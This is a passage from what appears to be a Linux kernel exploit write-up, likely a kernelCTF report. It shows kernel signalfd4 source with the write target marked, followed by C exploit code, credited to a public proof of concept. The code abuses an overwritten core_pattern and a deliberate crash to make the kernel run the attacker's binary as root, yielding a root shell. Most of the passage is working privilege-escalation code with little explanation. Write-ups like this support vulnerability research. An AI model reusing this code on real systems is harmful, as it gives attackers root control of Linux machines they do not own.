 ```c
		}
		spin_lock_irq(&current->sighand->siglock);
		ctx->sigmask = *mask;	//	<-- write here
		spin_unlock_irq(&current->sighand->siglock);

		wake_up(&current->sighand->signalfd_wqh);
		fdput(f);
	}

	return ufd;
}

SYSCALL_DEFINE4(signalfd4, int, ufd, sigset_t __user *, user_mask,
		size_t, sizemask, int, flags)
{
	sigset_t mask;

	if (sizemask != sizeof(sigset_t))
		return -EINVAL;
	if (copy_from_user(&mask, user_mask, sizeof(mask)))
		return -EFAULT;
	return do_signalfd4(ufd, &mask, flags);
}
```

Then we trigger the core_pattern and execute program with root privilege:

```c
// core_pattern exploit taken from
// https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-52447_cos/exploit/cos-105-17412.294.10/exploit.c#L444
int check_core() {
  // Check if /proc/sys/kernel/core_pattern has been overwritten
  char buf[0x100] = {};
  int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
  read(core, buf, sizeof(buf));
  close(core);
  return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}

void crash(char *cmd) {
  int memfd = memfd_create("", 0);
  SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
  dup2(memfd, 666);
  close(memfd);
  while (check_core() == 0)
    sleep(1);
  puts("Root shell !!");
  /* Trigger program crash and cause kernel to executes program from
   * core_pattern which is our "root" binary */
  *(size_t *)0 = 0;
}

  // trigger core_pattern exploit
  if (fork() == 0)
    crash("");
  while (1)
    sleep(100);
```

